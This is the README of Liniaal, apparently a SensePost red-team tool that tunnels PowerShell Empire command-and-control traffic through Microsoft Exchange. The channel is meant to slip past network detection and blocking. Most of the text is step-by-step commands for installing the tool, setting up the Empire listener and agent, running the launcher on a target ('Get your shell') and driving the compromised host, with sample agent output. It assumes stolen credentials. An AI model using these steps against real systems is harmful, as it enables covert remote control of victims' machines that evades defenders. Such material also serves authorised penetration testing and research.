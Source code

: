 # Introduction

Liniaal allows for the creation of a C2 channel for Empire agents, through an Exchange server. All communication is done through MAPI/HTTP or RPC/HTTP and directly between the Liniaal agent and the Exchange server. No traffic traverses the traditional network boundary as plain HTTP, bypassing most network based detection and blocking.

Liniaal allows Empire to be used as usual, through a high latency, stealthy channel.

A full-end-to-end example is available on [YouTube] and an outline can be found in the [SensePost blog].


# Getting the Code

Liniaal depends heavily on the libraries created by [Ruler]. To interface with Powershell [Empire] you will require version 2.0.

Dependencies:

* [Ruler]  
* [golang.org/x/crypto/ssh/terminal]
* [Empire] version 2.0

The simpliest way to get Liniaal is to use `go get`:

```
go get github.com/sensepost/liniaal
```

Alternatively you can `git clone` the relevant components into your GOPATH:

```
git clone github.com/sensepost/ruler
git clone github.com/sensepost/liniaal
```

## Building

You can build your own binaries using Go:

```
cd liniaal
go build
```

## Pre-built Binaries

Compiled binaries for Linux, OSX and Windows are available. Find these in [Releases]

# Usage

**Note:** *Outlook will need to be open on your target's host! The Empire agent uses the MAPI end-points exposed by Outlook and these are only available while Outlook is running*

Firstly copy the [stager] and [listener] to the relevant directories within Empire.

```
cp empire/agent/data/stagers/http_mapi.ps1 /opt/empire/data/agent/stagers/
cp empire/lib/listeners/http_mapi.py /opt/empire/lib/listeners/
```

### Setting up Empire listener

To setup the listener within Empire:

```
(Empire) > listeners
(Empire: listeners) > uselistener http_mapi
```

There are two new options **Folder** and **EmailAddress**, of which only  **Folder** is mandatory. **Folder** allows you to specify a name for the hidden folder used for communication. The default folder name is **Liniaal**.
The **EmailAddress** is used to provide an email address for Liniaal to use on the client-side. This may be required in instances where users have multiple mailboxes. If this is set, the agent will locate the correct mailbox and use that for communication. If **EmailAddress** is left blank, the agent will use the primary mailbox. This should be sufficient in most cases and provides you with a generic listener, which can be used with multiple targets.

Change these to a custom values if you wish and then execute the listener.

```
(Empire: listeners/http_mapi) > set Folder Liniaal
(Empire: listeners/http_mapi) > execute
```

Now create your launcher: *Liniaal only supports powershell agents!*

```
(Empire: listeners/http_mapi) > launcher powershell
```

### Setup Liniaal

Now that Empire is up and running, you need to setup the Liniaal agent to translate/transfer requests between Empire and Exchange.

```
./liniaal

Liniaal - a communication extension to Ruler
use 'options' to view settings for your agent. 'set key value' to change settings.
For anything else, use 'help'
> options
== Agent options ==
Password                                            The password for the target user
Folder               Liniaal                        The name of the hidden folder
Host                 http://localhost:8080          The address of our Empire listener
URL                                                 A custom autodiscover end-point
EmailAddress         demo@outlook.com               The target mailbox/email address
Username                                            The username of our target user, if required
Domain                                              The domain of our target user, if required
>
```

The interface is similar to Empire and allows you to set the required fields. These are similar to those used in Ruler. THe important fields are:

* EmailAddress
* Username   (except for Office365/Outlook domains)
* Password
* Folder
* Host

Ensure that the **Folder** is the same as set in [Empire].
**Host** is our Empire listener address.

```
> set Folder Liniaal
> set EmailAddress test@outlook.com
> set Host http://localhost:8080
```

Once the required values are set, start the Liniaal agent:

```
> run

[+] Agent Listening  
```

The agent's status/actions will be shown and dynamically updated.

### Get your shell

Now your communication channel is setup, you can execute the powershell launcher (generated through Empire) on your target. How you do this depends fully on you. You could even pop it through [Ruler].

The channel is slow, it can take upto two minutes for the Empire agent to be come active and usable through Empire. You should see the following while the agent is communicating through Liniaal:

```
[+] Sent response to agent at: 14/03/2017 03:56:44 PM
```

Once the agent is setup you can use the agent through the Empire inteface as you normally would.

```
(Empire: listeners/http_mapi) > [+] Initial agent XAYZUNLW from 172.17.0.1 now active
(Empire: listeners/http_mapi) > agents
[*] Active agents:                                                                                                             │
                                                                                                                               │
  Name            Lang  Internal IP     Machine Name    Username            Process             Delay    Last Seen             │
  ---------       ----  -----------     ------------    ---------           -------             -----    --------------------  │
  XAYZUNLW        ps    192.168.122.18  DESKTOP-DNST7G1 DESKTOP-DNST7G1\Etiepowershell/2732     20/0.0   2017-03-14 15:59:20   │
                                                                                                                               │
(Empire: agents) > interact XAYZUNLW                                                                                           │
(Empire: XAYZUNLW) > sysinfo
(Empire: XAYZUNLW) > sysinfo: 0|http://172.17.0.2:8080|DESKTOP-DNST7G1|Etienne|DESKTOP-DNST7G1|192.168.122.18|Microsoft Windows│
 10 Home|False|powershell|2732|powershell|5                                                                                    │
                                                                                                                               │
Listener:         http://172.17.0.2:8080                                                                                       │
Internal IP:    192.168.122.18                                                                                                 │
Username:         DESKTOP-DNST7G1\Etienne                                                                                      │
Hostname:       DESKTOP-DNST7G1                                                                                                │
OS:               Microsoft Windows 10 Home                                                                                    │
High Integrity:   0                                                                                                            │
Process Name:     powershell                                                                                                   │
Process ID:       2732                                                                                                         │
Language:         powershell                                                                                                   │
Language Version: 5       
```

# Caveats

As noted before, Liniaal requires Outlook to be running. You will also require valid credentials for the target user. And it is assumed you have a way to run code on the target host.

The Powershell agent does not have any persistence or ability to respawn itself. It is also *dumb* at the moment; if Outlook stops running, the agent stops running and you will need to get it back manually (PR requests with a fix are welcome!)

[Ruler]:<https://github.com/sensepost/ruler>
[golang.org/x/crypto/ssh/terminal]:<golang.org/x/crypto/ssh/terminal>
[Releases]: <https://github.com/sensepost/liniaal/releases>
[Empire]:<https://github.com/EmpireProject/Empire/tree/2.0_beta>
[stager]:<https://github.com/sensepost/liniaal/blob/master/empire/data/stagers/http_mapi.ps1>
[listener]:<https://github.com/sensepost/liniaal/blob/master/empire/lib/listeners/http_mapi.py>
[SensePost blog]:<https://sensepost.com/blog/2017/Liniaal_-_Empire_through_Exchange>
[YouTube]:<https://www.youtube.com/watch?v=kRg09kUGpHs>
